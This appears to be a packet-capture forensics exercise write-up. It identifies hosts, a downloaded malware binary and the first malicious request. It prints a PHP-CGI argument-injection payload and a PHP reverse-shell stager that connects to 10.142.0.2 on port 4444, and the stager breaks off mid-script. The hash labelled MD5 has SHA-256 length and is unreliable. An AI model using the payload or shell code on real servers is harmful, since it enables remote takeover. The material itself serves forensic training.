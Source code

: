 A malware binary is downloaded by the host at TCP stream #4. Obtain a copy of the file (might trigger your anti-virus if not using VM). Get the md5 sum of the binary and identify it at virustotal.com.
  - MD5 of _smss.exe_: 
    ```
    b14ccb3786af7553f7c251623499a7fe67974dde69d3dffd65733871cddf6b6d
    ```




## Exercise 3

List the hosts (IP addresses) in the traffic.
  - 10.142.0.1, 10.142.0.2, 10.142.0.3

Identify the packet that sends the initial malicious query.
  - Packet information:
    ``` 
    6	2013-04-29 14:00:34.295022	10.142.0.2	10.142.0.1	HTTP	1432	POST /?--define+allow_url_include%3don+-%64+safe_mode%3doff+--define+suhosin.simulation%3d1+--define+disable_functions%3d%22%22+-d+open_basedir%3dnone+--define+auto_prepend_file%3dphp://input+-%6e++ HTTP/1.1  (application/x-www-form-urlencoded)
    ```
  - PHP Script
    ```php
    <?php
    error_reporting(0);
    $ip   = '10.142.0.2';
    $port = 4444;
    $ipf  = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
        $ip  = "[" . $ip . "]";
        $ipf = AF_INET6;
    }
    if (($f = 'stream_socket_client') && is_callable($f)) {
        $s      = $f("tcp://{$ip}:{$port}");
        $s_type = 'stream';
    } elseif (($f = 'fsockopen') && is_callable($f)) {
        $s      = $f($ip, $port);
        $s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
        $s   = $f($ipf, SOCK_STREAM, SOL_TCP);
        $res = @socket_connect($s, $ip, $port);
        if (!$res) {
            die();
        }
        $s_type = 'socket';
    } else {
        die('no socket funcs');
    }
    if (!$s) {
        die('no socket');
    }
    switch ($s_type) {
        case 'stream':
            $len = fread($s, 4);
            break;
        case 'socket':
            $len = socket_read($s, 4);
            break;
    }
    if (!$len) {
        die();
    }